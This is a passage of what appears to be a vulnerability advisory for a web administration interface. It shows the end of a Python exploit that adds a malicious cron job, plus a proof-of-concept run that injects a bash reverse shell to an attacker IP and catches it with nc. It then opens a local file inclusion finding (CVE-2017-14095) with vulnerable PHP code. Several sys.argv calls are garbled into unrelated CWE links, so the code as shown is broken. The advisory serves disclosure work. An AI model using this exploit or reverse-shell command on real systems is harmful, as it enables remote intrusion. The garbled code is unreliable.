 ```
    }
    r = requests.post(url, data=multipart_data, cookies={session_id: session_id}, verify=False)

    if "MSG_UPDATE_UPDATE_SCHEDULE" in r.text:
        print "[+] Cron job added, enjoy!"
    else:
        print "[-] Session has probably timed out, try again later!"

if __name__ == "__main__":
    exploit(sys.argv(http://cwe.mitre.org/data/definitions/532.html), int(sys.argv(http://cwe.mitre.org/data/definitions/78.html)), sys.argv(http://cwe.mitre.org/data/definitions/98.html))
```


The following proof of concept opens a reverse shell to the attacker's machine.



```
$ python coso.py 192.168.45.186 4343 'bash -i >& /dev/tcp/192.168.45.80/8888 0>&1'
[+] Obtained session id q514un6ru6stcpf3k0n4putbd3
[+] Executing command 'bash -i >& /dev/tcp/192.168.45.80/8888 0>&1' on 192.168.45.186:4343
[+] Cron job added, enjoy!
$ nc -lvp 8888
Listening on [0.0.0.0] (family 0, port 8888)
Connection from [192.168.45.186] port 8888 [tcp/*] accepted (family 2, sport 59508)
bash: no job control in this shell
[webserv@ localhost ~]$
```



### 7.3 Remote command execution via local file inclusion

[[CVE-2017-14095](http://cve.mitre.org/cgi-bin/cvename.cgi?name=2017-14095)] The /widget/inc/widget_package_manager.php script passes user provided input to the PHP require_once function without sanitization. However, there are some restrictions that need to be overcome in order to include arbitrary files, as the application appends PoolManager.php at the end of the filename.

File /var/www/AdminUI/widget/inc/widget_package_manager.php:



```
switch($widgetRequest['act']){
    case "check":
    try{
            // $strUpdateType = widget, configure_widget_and_widget_component
            $strUpdateType = isset($widgetRequest['update_type']) ? $widgetRequest['update_type'] : 'widget';
            $strFuncName = 'is'.WF::getTypeFactory()->getString()->getUpperCamelCase($strUpdateType).'Update';
            $isUpdate = WF::getWidgetPoolFactory()->getWidgetPoolManager($strUpdateType)->$strFuncName();
            [...]
```
